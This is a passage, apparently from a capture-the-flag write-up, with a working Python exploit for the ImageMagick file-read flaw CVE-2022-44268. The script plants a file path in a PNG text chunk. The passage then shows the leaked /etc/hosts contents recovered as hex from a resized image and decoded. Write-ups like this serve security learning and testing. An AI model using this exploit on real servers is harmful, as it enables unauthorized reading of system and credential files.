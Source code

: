 ```python
#!/bin/python3

from sys import argv
from png import Reader, write_chunks

if len(argv) < 2:
    print("Usage: CVE-2022-44268.py <LFI>")
    exit(1)

LFI = argv[1]

reader = Reader(filename='source.png')
chunks = list(reader.chunks())

chunk_field = (b"tEXt", f"Profile\x00{LFI}".encode())
chunks.insert(1, chunk_field)

file = open('output.png', 'wb')
write_chunks(file, chunks)
file.close()
```

Creating the `output.png`:

```shell
python3 CVE-2022-44268.py /etc/hosts
```

Send the file to the server and download the resized. Now, inspect it with `identify`:

```shell
identify -verbose 64a318dbc65d1.png
```

You should see a chunk called `Raw profile type`, containing a hex sequence:

```
    Raw profile type:

     205
3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c677269
6d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67
206c696e65732061726520646573697261626c6520666f7220495076362063617061626c
6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c68
6f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465
730a666630323a3a32206970362d616c6c726f75746572730a
```

Decoding to `utf-8`: 

```shell
python3 -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode())'
```


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/